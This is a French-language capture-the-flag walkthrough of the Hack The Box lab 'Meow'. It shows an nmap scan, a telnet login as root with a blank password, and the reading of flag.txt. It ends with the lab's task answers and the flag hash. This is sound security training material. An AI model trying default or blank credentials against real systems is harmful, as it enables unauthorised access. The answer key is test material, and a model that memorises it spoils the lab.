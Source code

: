 
# MEOW 

![alt text](image.png)

#telnet, #protocols, #reconnaissance, #weak credentials, #misconfiguration

## 1. Méthodologie

Ici on commence par énumérer les ports et services ouverts avec la commande:

```nmap -Sv ip_cible```

```
└──╼ [★]$ nmap -sV 10.129.16.212
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-21 15:20 CST
Nmap scan report for 10.129.16.212
Host is up (0.0099s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Nous permettant de découvrir que le port 23 est ouvert (Telnet). On se connecte sur le port 23 avec `telnet IP_cible`

```
└──╼ [★]$ telnet 10.129.16.212
Trying 10.129.16.212...
Connected to 10.129.16.212.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: 
```

On peut essayer de s'authentifier avec les identifiants les plus courants comme "root", "admin" ou autre sans mot de passe:

```
Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 21 Feb 2025 09:24:38 PM UTC

  System load:           0.08
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             136
  Users logged in:       0
  IPv4 address for eth0: 10.129.16.212
  IPv6 address for eth0: dead:beef::250:56ff:fe94:2fda

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
root@Meow:~# 
```

Une fois authentifié, on va lister les fichiers/dossiers présents avec la commande `ls`. Nous pouvons afficher le contenu du fichier avec la commande `cat file_name`.

```
root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt
b40abdfe23665f766f9c61ecba8a4c19
root@Meow:~# 
```

## 2. Questions

### Task 1

What does the acronym VM stand for?

```
virtual machine
```

### Task 2

What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell.

```
terminal
```

### Task 3

What service do we use to form our VPN connection into HTB labs?

```
openvpn
```

### Task 4

What tool do we use to test our connection to the target with an ICMP echo request?

```
ping
```

### Task 5

What is the name of the most common tool for finding open ports on a target?

```
nmap
```

### Task 6

What service do we identify on port 23/tcp during our scans?

```
telnet
```

### Task 7

What username is able to log into the target over telnet with a blank password?

```
root
```

### Flag

```
b40abdfe23665f766f9c61ecba8a4c19
```
